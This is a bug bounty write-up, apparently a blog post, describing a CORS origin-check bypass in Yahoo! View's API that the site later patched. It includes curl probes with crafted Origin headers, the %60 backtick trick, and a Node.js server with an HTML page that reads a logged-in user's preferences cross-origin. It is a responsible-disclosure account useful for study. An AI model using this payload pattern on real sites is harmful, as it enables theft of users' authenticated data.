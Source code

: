 ```yaml
---
layout: post
title: "Tricky CORS Bypass in Yahoo! View"
author: Corben Leo
---
```

Recently, HackerOne hosted their second Hack The World competition. During this time I decided to take a look at Yahoo's bug bounty program because I have heard good things about them and also due to the fact that their scope is pretty big. After finding a few issues in my.yahoo.com and getting paid for those, I decided I was going to test <a href="https://view.yahoo.com" rel="noopener noreferrer" style="color:#DC0739;">Yahoo! View</a><br><br>
I decided to browse a bit on <a href="https://view.yahoo.com" rel="noopener noreferrer" style="color:#DC0739;">https://view.yahoo.com</a> and look at what requests were being made. After about 2 minutes of clicking literally everything I could click and submitting as many forms as I could, I decided to look through everything Burp Suite logged.<br><br>
I saw that the applicaiton  making API calls to <a href="https://api.view.yahoo.com" rel="noopener noreferrer" style="color:#DC0739;">https://api.view.yahoo.com</a> and thanks to Burp Suite's passive monitoring, I also noticed that the application implemented a cross-origin resource sharing (CORS) policy.<br><br>According to the <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS">MDN Web Docs</a>, CORS "is a mechanism that uses additional HTTP headers to let a user agent gain permission to access selected resources from a server on a different origin (domain) than the site currently in use."<br><br>
Since browsers enforce a Same-Origin Policy, which means that it only accepts ajax requests from accessing data from the same domain, Cross-Origin Resource Sharing allows sharing data with other sites that can be specified. <br><br>The initial request I saw in Burp's history was:
```bash
GET /api/session/preferences HTTP/1.1
Host: api.view.yahoo.com
------- snip -------
origin: https://view.yahoo.com
```
and the server's response was:
```bash
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
------- snip -------
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://view.yahoo.com
```
Since the server was reflecting the origin and with `Access-Control-Allow-Credentials)` set to `true`, if I could get the origin to be allowed, then I could steal data from the API.<br><br>
First, I tried just sending a the origin `corben.io`:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://corben.io'
```
The server responded without the Allow-Origin and Allow-Credentials.
<br><br>
Next, I tried sending `view.corben.io` as the origin:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.corben.io'
```
Still nothing.<br><br>
An idea came to mind, what if I tried `view.yahoo.com.corben.io`?
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com.corben.io'
```
Voila! Still **DID NOT** respond with the Allow-Origin or ACAC. I had one more payload in mind: `view.yahoo.comcorben.io`. I sent it and to my dismay, nothing had changed.
<br><br><br>I was about to give up when I came up with the idea to send *two domains* in the origin header:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com corben.io'
```
To my surprise the server responded with:
```bash
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
------- snip -------
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://view.yahoo.com corben.io
```
I was intrigued and was trying to come up with a way that I could make this a valid domain name so I could exploit it. I tried adding some characters to replace the space between the two domains to see what the server responded with!
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com%corben.io'
```
Response:
```bash
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
------- snip -------
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://view.yahoo.com%corben.io
```
This still wasn't exploitable because it wasn't valid.<br><br>
After a bit of asking around, <a href="https://twitter.com/mattaustin">Matt Austin</a> linked me to one of his <a href="https://hackerone.com/reports/255991">HackerOne Reports</a> to Brave Software. <br><br>
I decided to try using a **URL-Encoded backtick** / %60 since I saw it would be a valid subdomain (from his report) and I already saw that the origin was reflected when there was a percent sign.
<br>I sent:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com%60cdl.corben.io'
```
The server's response:
```bash
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: http://view.yahoo.com%60cdl.corben.io
```
Yes, it worked! I set up a wildcard on one of my domains in Route53. I opened up Firefox and visited http://view.yahoo.com%60cdl.hack-r.be and it didn't load! Yay, more problems. I tried in Chrome, IE, & Edge and it didn't work in them either. I got to a Mac and tried it in **Safari** and it finally worked!! HOWEVER, Apache decided it didn't like the request and to keep throwing a server error.<br><br>![problems](/images/problems-meme.jpg "Problems")<br><br>After playing around I decided to just create a simple server in NodeJS to serve my exploit page.<br>
<br>
Contents of **server.js**:
```javascript
const http = require('http')
const port = 6299
const fs = require("fs");


const requestHandler = (request, response) => {
  fs.readFile("index.html", function(err, data){
  response.writeHead(200, {'Content-Type': 'text/html'});
  response.write(data);
  response.end();
});
}

const server = http.createServer(requestHandler)

server.listen(port, (err) => {
  if (err) {
    return console.log('[+] ruh roh! something went wrong :(', err)
  }

  console.log(`[+] server is listening on port ${port}`)
})
```
and contents of **index.html**:
```html
<!DOCTYPE html>
<html>
<head><title>CORS</title></head>
<body>
<center>
<h2>Yahoo CORs Exploit</h2>

<textarea rows="10" cols="60" id="pwnz">
</textarea><br>
<button type="button" onclick="cors()">Exploit</button>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("pwnz").innerHTML = this.responseText;
    }
  };
  xhttp.open("GET", "http://api.view.yahoo.com/api/session/preferences", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
```
I ran it and tried loading the page again in Safari and it loaded perfectly. I clicked the "Exploit" button and it retrieved the data from the vulnerable API! woot woot!
<br><br>Here's the proof of concept video:
<br>
<iframe width="640" height="360" src="https://www.youtube.com/embed/lg31RYYG-T4" frameborder="0" gesture="media" allowfullscreen></iframe>
<br>
<h2><u>Timeline</u></h2>
- (10/24/2017) Reported to Yahoo! via HackerOne
- (10/27/2017) Confirmed & awarded $100 on Triage
- (11/20/2017) Vulnerability Patched
- (12/1/2017) Awarded $400 bounty + a $100 bonus for a "great writeup and POC" (-Yahoo)  
<br><br>Although it was a low impact bug, it was definitely a learning experience and a fun challenge!<br><br>
Thanks for reading,<br><br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/lc"  target="_blank" rel="noopener noreferrer">https://github.com/lc</a>

